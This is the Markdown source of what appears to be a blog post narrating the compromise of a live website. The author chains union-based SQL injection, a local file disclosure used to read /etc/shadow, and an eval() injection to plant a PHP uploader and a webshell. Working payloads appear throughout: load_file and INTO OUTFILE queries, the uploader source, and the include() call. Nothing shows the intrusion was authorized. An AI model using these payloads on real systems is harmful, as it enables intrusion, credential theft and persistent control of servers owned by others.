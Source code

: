 ```yaml
---
layout: post
title:  "Chaining Multiple Vulnerabilities To Get A Shell "
date:   2021-09-24 09:17:08 +0100
tags: sqli fpd lfd
---
```


![]({{site.url}}/images/CMV/main.png){:width="100%"}

# 0x00 - MySQL Injection
It started when I got a message from a friend asking if I could manage to get a webshell on a SQLi vulnerable website. 
 
He sent the page to me and said it's vulnerable to SQLi, so I injected the page, listed all the tables/columns, it was a simple union based injection and there was nothing interesting in tables (no users, admins, etc) 
 
However, the current sql user had FILE privileges, so I said to myself, this seems easy enough, all I've to do is find the full path and we have a shell. 
![]({{site.url}}/images/CMV/chain.png){:width="100%"}
# 0x01 - Hunting for FPD
The SQLi vulnerable page had errors disabled, so I didn't get the full path from there, it was running on Apache so I tried doing 

{% highlight sql %}
sqli.php?id=1' union select 1,load_file("Path to Apache HTTP Config"),3 -- - 
{% endhighlight %}

<br>Tried all the possible locations that I could think of but it wasn't there :( .. So I started looking for phpinfo file, testing other files by sending arrays as parameters, etc and found a file called download.php, it was vulnerable to Local File Disclosure, tried downloading /etc/shadow and ta-da!<br>
![]({{site.url}}/images/CMV/fpd.png){:width="100%"}
<br>Got the full path, back to SQLi and we'll have a shell in no time! 
 
# 0x00 - Hello again!
Now I have a SQLi vulnerable page, have the full path and the user has FILE privileges .. So I tried: 

{% highlight sql %}
sqli.php?id=1' union select 1,0xSHELL,3 into outfile "/var/www/www_v1/images/shell.php" -- - 
{% endhighlight %}

<br>and nothing .. tried all the possible directories that I thought would be writable (documents, css, etc) but still no shell :(
 
I started viewing sources of other PHPs in hopes of finding a writable directory, after a few tries I loaded a file which was including another file, loaded that file and found this 

{% highlight sql %}
sqli.php?id=1' union select 1,load_file('/var/www/www_v1/pci.php'),3 -- - 
{% endhighlight %}

{% highlight php linenos %}
<?php
...
$ArrayParameters = array_merge($_POST, $_GET);
$ArrayParameters = filtro($ArrayParameters);
$action = "";
if (isset($ArrayParameters['action'])) {
    $action = $ArrayParameters['action'];
}
if ($action == "") {
    $action = "Index";
}

eval($action . "Action(\$ArrayParameters);");
...
?>
{% endhighlight %}

<br>and here's filtro(), a poor attempt at trying to protect against HTML injection (or something else, I have no clue tbh), It's like the dev was trying to fix windows of a house which has no doors 

{% highlight php linenos %}
function filtro($arraypost) {
    $filteredArray = Array();

    foreach ($arraypost as $variable => $value) {
        $chars = array("-");
        $fixedVariable = str_replace($chars, "-", $value);
        $fixedVariable = str_replace("\"", "", $fixedVariable);
        $fixedVariable = str_replace("<br />", "<br />", $fixedVariable);
        $fixedVariable = str_replace("<br />", "<br />", $fixedVariable);
        $filteredArray[$variable] = $fixedVariable;
    }
    return $filteredArray;
}
{% endhighlight %}

<br>Tried doing a quick `system('wget ...')` but looked like it was disabled along with some of the usual stuff (inc. allow_url_\*), I got pretty anxious so instead of coming up with a workaround, I just used the SQLi that I had.
{% highlight php linenos %}
<?php
echo '<form method="post" enctype="multipart/form-data"><input type="file" name="file"><input name="submit" type="submit" value=">>"></form>';
if ($_POST['submit'] == ">>") {
    if (copy($_FILES['file']['tmp_name'], "/tmp/" . $_FILES['file']['name'])) {
        echo 'Done!<br>';
    } else {
        echo 'Error<br>';
    }
}
?>
{% endhighlight %}
{% highlight sql %}
sqli.php?id=1' union select 1,0xUPLOADER,3 into outfile '/tmp/skidalot' -- -
sqli.php?id=1' union select 1,load_file('/tmp/skidalot'),3 -- - 
{% endhighlight %}
![]({{site.url}}/images/CMV/uploader.png){:height="250px" width="300px"}

After I uploaded the uploader to `/tmp/skidalot`, I "included" it and uploaded the webshell
{% highlight bash %}
pci.php?action=include('/tmp/skidalot');
{% endhighlight %}

# $ cat /etc/motd
